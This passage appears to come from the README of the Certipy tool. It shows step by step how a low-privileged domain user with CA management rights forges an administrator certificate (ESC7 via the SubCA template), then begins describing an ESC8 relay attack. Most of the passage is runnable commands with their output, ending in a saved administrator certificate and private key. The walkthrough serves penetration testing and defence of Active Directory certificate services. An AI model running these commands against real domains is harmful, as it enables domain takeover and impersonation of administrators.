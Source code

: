 **Attack**

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template.

This request will be denied, but we will save the private key and note down the request ID.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template SubCA -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 785
Would you like to save the private key? (y/N) y
[*] Saved private key to 785.key
[-] Failed to request certificate
```

With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
$ certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 785
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@corp.local'
[*] Certificate has no object SID
[*] Loaded private key from '785.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

#### ESC8

ESC8 is when an Enrollment Service has installed and enabled Web Enrollment via HTTP.

To start the relay server, we can run the `relay` command and specify the CA's IP in `-target http://<ip>`.

By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.
